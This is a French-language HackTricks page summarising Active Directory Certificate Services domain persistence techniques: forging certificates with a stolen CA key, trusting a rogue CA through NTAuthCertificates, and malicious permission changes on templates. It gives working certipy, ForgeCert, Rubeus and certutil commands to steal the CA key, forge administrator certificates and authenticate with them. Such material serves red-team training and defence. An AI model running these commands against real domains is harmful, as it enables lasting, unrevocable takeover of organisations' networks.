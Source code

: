 # AD CS Domain Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Ceci est un résumé des techniques de persistance de domaine partagées dans [https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf](https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf)**. Consultez-le pour plus de détails.

## Forging Certificates with Stolen CA Certificates - DPERSIST1

Comment pouvez-vous savoir qu'un certificat est un certificat CA ?

Il peut être déterminé qu'un certificat est un certificat CA si plusieurs conditions sont remplies :

- Le certificat est stocké sur le serveur CA, avec sa clé privée sécurisée par le DPAPI de la machine, ou par du matériel tel qu'un TPM/HSM si le système d'exploitation le prend en charge.
- Les champs Émetteur et Sujet du certificat correspondent au nom distinctif de la CA.
- Une extension "CA Version" est présente exclusivement dans les certificats CA.
- Le certificat ne contient pas de champs d'Utilisation de Clé Étendue (EKU).

Pour extraire la clé privée de ce certificat, l'outil `certsrv.msc` sur le serveur CA est la méthode prise en charge via l'interface graphique intégrée. Néanmoins, ce certificat ne diffère pas des autres stockés dans le système ; ainsi, des méthodes telles que la [technique THEFT2](certificate-theft.md#user-certificate-theft-via-dpapi-theft2) peuvent être appliquées pour l'extraction.

Le certificat et la clé privée peuvent également être obtenus en utilisant Certipy avec la commande suivante :
```bash
certipy ca 'corp.local/administrator@ca.corp.local' -hashes :123123.. -backup
```
Lors de l'acquisition du certificat CA et de sa clé privée au format `.pfx`, des outils comme [ForgeCert](https://github.com/GhostPack/ForgeCert) peuvent être utilisés pour générer des certificats valides :
```bash
# Generating a new certificate with ForgeCert
ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123! --Subject "CN=User" --SubjectAltName localadmin@theshire.local --NewCertPath localadmin.pfx --NewCertPassword Password123!

# Generating a new certificate with certipy
certipy forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL'

# Authenticating using the new certificate with Rubeus
Rubeus.exe asktgt /user:localdomain /certificate:C:\ForgeCert\localadmin.pfx /password:Password123!

# Authenticating using the new certificate with certipy
certipy auth -pfx administrator_forged.pfx -dc-ip 172.16.126.128
```
{% hint style="warning" %}
L'utilisateur ciblé pour la falsification de certificat doit être actif et capable de s'authentifier dans Active Directory pour que le processus réussisse. Falsifier un certificat pour des comptes spéciaux comme krbtgt est inefficace.
{% endhint %}

Ce certificat falsifié sera **valide** jusqu'à la date de fin spécifiée et **tant que le certificat CA racine est valide** (généralement de 5 à **10+ ans**). Il est également valide pour les **machines**, donc combiné avec **S4U2Self**, un attaquant peut **maintenir une persistance sur n'importe quelle machine de domaine** tant que le certificat CA est valide.\
De plus, les **certificats générés** avec cette méthode **ne peuvent pas être révoqués** car la CA n'en est pas consciente.

## Faire confiance aux certificats CA malveillants - DPERSIST2

L'objet `NTAuthCertificates` est défini pour contenir un ou plusieurs **certificats CA** dans son attribut `cacertificate`, que Active Directory (AD) utilise. Le processus de vérification par le **contrôleur de domaine** implique de vérifier l'objet `NTAuthCertificates` pour une entrée correspondant à la **CA spécifiée** dans le champ Émetteur du **certificat** authentifiant. L'authentification se poursuit si une correspondance est trouvée.

Un certificat CA auto-signé peut être ajouté à l'objet `NTAuthCertificates` par un attaquant, à condition qu'il ait le contrôle de cet objet AD. Normalement, seuls les membres du groupe **Enterprise Admin**, ainsi que les **Domain Admins** ou **Administrators** dans le **domaine racine de la forêt**, ont la permission de modifier cet objet. Ils peuvent éditer l'objet `NTAuthCertificates` en utilisant `certutil.exe` avec la commande `certutil.exe -dspublish -f C:\Temp\CERT.crt NTAuthCA126`, ou en utilisant l'[**outil de santé PKI**](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/import-third-party-ca-to-enterprise-ntauth-store#method-1---import-a-certificate-by-using-the-pki-health-tool).

Cette capacité est particulièrement pertinente lorsqu'elle est utilisée en conjonction avec une méthode précédemment décrite impliquant ForgeCert pour générer dynamiquement des certificats.

## Mauvaise configuration malveillante - DPERSIST3

Les opportunités de **persistance** à travers les **modifications de descripteurs de sécurité des composants AD CS** sont nombreuses. Les modifications décrites dans la section "[Domain Escalation](domain-escalation.md)" peuvent être mises en œuvre de manière malveillante par un attaquant ayant un accès élevé. Cela inclut l'ajout de "droits de contrôle" (par exemple, WriteOwner/WriteDACL/etc.) à des composants sensibles tels que :

- L'objet **ordinateur AD du serveur CA**
- Le **serveur RPC/DCOM du serveur CA**
- Tout **objet ou conteneur AD descendant** dans **`CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>`** (par exemple, le conteneur des modèles de certificats, le conteneur des autorités de certification, l'objet NTAuthCertificates, etc.)
- **Groupes AD délégués des droits pour contrôler AD CS** par défaut ou par l'organisation (comme le groupe Cert Publishers intégré et tous ses membres)

Un exemple de mise en œuvre malveillante impliquerait un attaquant, qui a des **permissions élevées** dans le domaine, ajoutant la permission **`WriteOwner`** au modèle de certificat **`User`** par défaut, l'attaquant étant le principal pour ce droit. Pour exploiter cela, l'attaquant changerait d'abord la propriété du modèle **`User`** à son profit. Ensuite, le **`mspki-certificate-name-flag`** serait défini sur **1** sur le modèle pour activer **`ENROLLEE_SUPPLIES_SUBJECT`**, permettant à un utilisateur de fournir un nom alternatif de sujet dans la demande. Par la suite, l'attaquant pourrait **s'inscrire** en utilisant le **modèle**, choisissant un nom de **administrateur de domaine** comme nom alternatif, et utiliser le certificat acquis pour s'authentifier en tant que DA.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
